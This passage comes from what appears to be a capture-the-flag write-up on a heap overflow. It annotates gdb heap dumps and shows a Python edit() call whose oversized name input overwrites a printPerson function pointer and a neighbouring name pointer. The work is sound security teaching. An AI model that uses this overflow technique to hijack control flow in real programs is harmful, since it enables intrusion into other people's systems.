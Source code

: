 Seeing this looks like a familiar heap, but a few things are strange. I will go through the output line by line:

<pre>
0x81a81e0:	0x00000000	0x00000000	0x00000000	0x00000021
                                                [chunk metadata,    ^size^]
0x81a81f0:	0x41414141	0x0000000a	0x00000000	0x00000000
                  ["AAAA"]          ["\n"]                
So P[0]->name points to 0x81a81f0.

0x81a8200:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a8210:	0x42424242	0x0000000a	0x00000000	0x00000000
P[1]->name        ["BBBB"]          ["\n"]

0x81a8220:	0x00000000	0x00000000	0x00000000	0x00000011
Here we see a smaller chunk size (0x11) than before. Looks like the allocated P[2] struct, see below.

0x81a8230:	0x080ebb10	0x081a8240	0x00000003	0x00000021
               [printPerson]  [P[2]->name ptr]  [P[2]->age]
                   ^???

0x81a8240:	0x43434343	0x0000000a	0x00000000	0x00000000
P[2]->name        ["CCCC"]          ["\n"]

0x81a8250:	0x00000000	0x00000000	0x00000000	0x00020da9
                                               [top chunk metadata, ^size^]
</pre>

The address `0x080ebb10`,  is where the `printPerson` routine is located. I do not know why it is here. However, overflowing with `"BBBB..."` overwrites both this pointer to the `printPerson` routine and the `P[2]->name` pointer. 

Both of these overwrites could make the program crash when we afterwards attempt to call `printPerson` on `P[2]`. I show you:

```python
    edit(index=1, length=0x40, name="B"*0x40, age=2)
```
<pre>
gdb-peda$ x/32wx 0x81a8240 - 0x60
0x81a81e0:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a81f0:	0x41414141	0x0000000a	0x00000000	0x00000000
0x81a8200:	0x00000000	0x00000000	0x00000000	0x00000021
0x81a8210:	0x42424242	0x42424242	0x42424242	0x42424242
...Now we are overflowing...
Below you can see that we've overwritten the pointer to printPerson, the P[2] chunk and the P[2]->name chunk.
0x81a8220:	0x42424242	0x42424242	0x42424242	0x42424242
0x81a8230:	0x42424242	0x42424242	0x42424242	0x42424242
                                    ^
                       [P[2]->name ptr should be here] 

0x81a8240:	0x42424242	0x42424242	0x42424242	0x42424242
               [P[2]->name]
0x81a8250:	0x00000000	0x00000000	0x00000000	0x00020da9 
</pre>
